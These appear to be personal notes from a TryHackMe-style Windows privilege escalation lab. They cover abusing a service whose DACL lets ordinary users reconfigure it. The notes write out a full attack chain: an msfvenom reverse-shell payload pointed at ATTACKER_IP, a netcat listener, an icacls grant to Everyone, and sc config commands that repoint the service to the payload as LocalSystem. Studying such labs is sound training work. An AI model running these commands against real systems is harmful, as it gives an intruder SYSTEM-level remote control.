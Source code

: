 		- Basically, what can certain users do with the following service. Notice that NT AUTHORIY\SYSTEM can start, stop and pause the "thmservice" below?

- For your convenience, a copy is available at `C:\\tools`.
- The command to check for the `thmservice` service DACL is:

`> accesschk64.exe -qlc thmservice`

![](/assets/img/Pasted image 20230103224339.png)

	- accesschk64.exe is for service reconfiguration I guess.
	- Notice that for BUILTIN\Users, the service is "ALL_ACCESS" which means, as a normal user we can reconfigure this specific service.

<u>Extended output</u>;

![](/assets/img/Pasted image 20230103232812.png)

- Here we can see that the `BUILTIN\\Users` group has the `SERVICE_ALL_ACCESS` permission, which means **any user can reconfigure the service**.
- Before changing the service, let's build another `exe-service` reverse shell and start a listener for it on the attacker's machine:

`> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`

- Create the listener:

`> nc -lvp 4447`

- We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`(the home directory of this user).
- Feel free to use either `wget` or `browser` to download the payload from the attacker's machine to transfer your executable and move it to the desired location.
- Remember to grant permissions to `Everyone` to execute your payload:

`> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`

![](/assets/img/Pasted image 20230103232508.png)

##### To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using `sc.exe`):

`> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`

![](/assets/img/Pasted image 20230103233251.png)

	- 'sc' has to be in command prompt.
	- Changes the BinPath and the executing privilege of the service binary.

- Restarting the service:

`> sc stop thmservice`
`> sc start thmservice`

![](/assets/img/Pasted image 20230103233338.png)
